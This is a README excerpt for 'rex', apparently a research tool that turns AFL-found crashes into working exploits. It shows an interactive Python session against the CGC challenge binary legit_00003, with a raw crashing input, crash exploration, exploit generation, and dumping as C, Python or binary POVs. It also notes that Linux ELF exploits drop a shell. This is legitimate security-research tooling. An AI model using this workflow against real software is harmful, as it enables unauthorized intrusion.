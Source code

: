 ### Rex

At the moment rex offers a couple of features, crash triaging, crash exploration, and exploitation for certain kinds of crashes.

In the example below, we take a crashing input for `legit_00003` discovered by AFL. The vulnerability is a simple buffer overflow on the stack, however, before the vulnerable function returns it calls memcpy with a destination parameter which was overwritten during the stack smash.
While rex doesn't know how to exploit an arbitrary memcpy call (yet), it can be told to explore the crash until it finds an exploitation primitive which it knows how to exploit.

Exploit objects can take a crashing input and will attempt to turn it into an exploit which can set every register and leak data from an arbitrary address.

```python
# triage a crash
>>> crash = rex.Crash("./legit_00003", "\x00\x0b1\xc1\x00\x0c\xeb\xe4\xf1\xf1\x14\r\rM\r\xf3\x1b\r\r\r~\x7f\x1b\xe3\x0c`_222\r\rM\r\xf3\x1b\r\x7f\x002\x7f~\x7f\xe2\xff\x7f\xff\xff\x8b\xc7\xc9\x83\x8b\x0c\xeb\x80\x002\xac\xe2\xff\xff\x00t\x8bt\x8bt_o_\x00t\x8b\xc7\xdd\x83\xc2t~n~~\xac\xe2\xff\xff_k_\x00t\x8b\xc7\xdd\x83\xc2t~n~~\xac\xe2\xff\xff\x00t\x8bt\x8b\xac\xf1\x83\xc2t~c\x00\x00\x00~~\x7f\xe2\xff\xff\x00t\x9e\xac\xe2\xf1\xf2@\x83\xc3t")
>>> crash.crash_type
'write_what_where'
>>> crash.explorable()
True
# explore the crash by setting segfaulting pointers to sane values and re-tracing
>>> crash.explore()
# now we can see that we control instruction pointer
>>> crash.crash_type
'ip_overwrite'
# generate exploits based off of this crash
>>> arsenal = crash.exploit()
# we generated a type 1 POV for every register
>>> len(arsenal.register_setters) # we generate one circumstantial register setter, one shellcode register setter
2
# and one Type 2 which can leak arbitrary memory
>>> len(arsenal.leakers)
1
# exploits are graded based on reliability, and what kind of defenses they can
# bypass, the two best exploits are put into the 'best_type1' and 'best_type2' attributes
>>> arsenal.best_type1.register
'ebp'
# exploits can be dumped in C, Python, or as a compiled POV
>>> arsenal.best_type2.dump_c('legit3_x.c')
>>> arsenal.best_type2.dump_python('legit3_x.py')
>>> arsenal.best_type2.dump_binary('legit3_x.pov')
# also POVs can be tested against a simulation of the CGC architecture
>>> arsenal.best_type1.test_binary()
True
```

Basic support of Linux ELF binaries also exists, exploits generated for ELF binaries will attempt to drop a shell.
